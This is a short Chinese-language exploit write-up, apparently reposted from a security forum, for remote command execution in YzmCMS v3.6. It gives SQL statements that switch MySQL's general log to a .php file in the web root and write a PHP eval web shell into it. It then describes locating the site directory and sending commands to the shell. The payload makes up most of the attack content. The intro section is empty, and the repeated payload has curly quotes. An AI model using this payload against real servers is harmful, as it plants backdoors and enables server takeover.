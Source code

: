 # YzmCMS v3.6 远程命令执行

> 原文：[https://www.zhihuifly.com/t/topic/3303](https://www.zhihuifly.com/t/topic/3303)

# YzmCMS v3.6 远程命令执行

## 一、漏洞简介

## 二、漏洞影响

YzmCMS v3.6

## 三、复现过程

Payload：

```
show variables like '%general%';   #查看配置
set global general_log = on;        #开启general log模式
set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
select '<?php eval($_POST[cmd]);?>';   #写入shell 
```

##### 1、执行sql语句，查看mysql日志配置情况

![image](img/973de0308b0b5b1933c9c56b257e1b8e.png)

#### 2、根据日志文件位置或者默认站点路径来推测站点目录，可用load_file()函数来测试，确认站点目录位置。或者通过phpinfo()等信息收集获取站点目录。

![image](img/023e936ec7fcb260e5e66ab100228688.png)

#### 3、分别执行下列sql语句，将脚本代码写入文件：

```
set global general_log = on; `set global general_log_file =CONCAT(“E:\study\WWW\YzmCMS\test.”,“php”); select ‘<?php eval($_POST[cmd]);?>’;` 
```

![image](img/2f2b3388652c844952886f2df0041a81.png)

#### 4、提交参数，执行脚本代码：

![image](img/d538301de6795547d78c5b6b1aad0f11.png)
